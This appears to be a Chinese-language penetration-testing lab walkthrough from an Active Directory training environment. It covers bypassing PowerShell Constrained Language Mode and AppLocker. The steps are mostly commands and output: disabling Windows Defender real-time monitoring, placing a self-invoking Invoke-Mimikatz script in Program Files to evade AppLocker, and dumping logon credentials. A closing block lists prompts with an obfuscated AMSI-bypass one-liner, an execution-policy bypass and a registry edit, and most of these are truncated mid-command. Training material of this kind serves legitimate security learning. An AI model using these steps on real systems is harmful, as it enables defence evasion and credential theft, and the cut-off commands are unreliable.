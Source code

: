 ```

什么是CLM?
>约束语言模式（Constrained Language Mode，CLM）是限制PowerShell的一种方法，可以限制PowerShell访问类似 Add-Type 之类的功能或者许多反射（reflective）方法（攻击者可以通过这些方法，在后续渗透工具中利用PowerShell运行时作为攻击媒介

那怎么办呢？

###  关闭Windows Defender
```
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
VERBOSE: Performing operation 'Update MSFT_MpPreference' on Target 'ProtectionManagement'.
```

### script调用自己

方法：
1. 复制一份Invoke-Mimikatz.ps1，取名为：Invoke-Mimikatz2.ps1
2. 在Invoke-Mimikatz2.ps1文件的最底部，加一行命令：Invoke-Mimikatz  #其实就是调用自己


把修改好的脚本拷贝到dcorp-adminsrv，注意根据上面的Applocker策略，只可以放在Program Files文件夹
```
Copy-Item .\Invoke-Mimikatz2.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```

回到dcorp-adminsrv，已经可以看到拷贝过来的脚本
```
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls


    Directory: C:\Program Files


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/16/2016   6:18 AM                Common Files
d-----        7/16/2016   6:18 AM                internet explorer
d-----        8/20/2020   3:48 AM                Windows Defender
d-----        7/16/2016   6:18 AM                WindowsPowerShell
-a----        2/13/2022   6:39 AM        2530075 Invoke-Mimikatz2.ps1
```

执行Invoke-Mimikatz2，导出所有哈希
```
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::logonpasswords


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\